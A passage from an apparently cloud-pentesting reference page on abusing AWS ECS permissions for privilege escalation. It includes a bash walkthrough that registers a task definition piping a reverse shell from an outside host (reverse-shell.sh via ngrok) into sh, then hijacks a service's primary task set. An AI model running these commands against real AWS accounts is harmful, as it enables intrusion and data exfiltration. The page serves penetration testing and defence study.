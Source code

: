 ### `ecs:RegisterContainerInstance`, `ecs:DeregisterContainerInstance`, `ecs:StartTask`, `iam:PassRole`

An attacker with these permissions could potentially register an EC2 instance in an ECS cluster and run tasks on it. This could allow the attacker to execute arbitrary code within the context of the ECS tasks.

- TODO: Is it possible to register an instance from a different AWS account so tasks are run under machines controlled by the attacker??

### `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, `ecs:DescribeTaskSets`

> [!NOTE]
> TODO: Test this

An attacker with the permissions `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, and `ecs:DescribeTaskSets` can **create a malicious task set for an existing ECS service and update the primary task set**. This allows the attacker to **execute arbitrary code within the service**.

```bash
# Register a task definition with a reverse shell
echo '{
  "family": "malicious-task",
  "containerDefinitions": [
    {
      "name": "malicious-container",
      "image": "alpine",
      "command": [
        "sh",
        "-c",
        "apk add --update curl && curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | sh"
      ]
    }
  ]
}' > malicious-task-definition.json

aws ecs register-task-definition --cli-input-json file://malicious-task-definition.json

# Create a malicious task set for the existing service
aws ecs create-task-set --cluster existing-cluster --service existing-service --task-definition malicious-task --network-configuration "awsvpcConfiguration={subnets=[subnet-0e2b3f6c],securityGroups=[sg-0f9a6a76],assignPublicIp=ENABLED}"

# Update the primary task set for the service
aws ecs update-service-primary-task-set --cluster existing-cluster --service existing-service --primary-task-set arn:aws:ecs:region:123456789012:task-set/existing-cluster/existing-service/malicious-task-set-id
```

**Potential Impact**: Execute arbitrary code in the affected service, potentially impacting its functionality or exfiltrating sensitive data.

## References
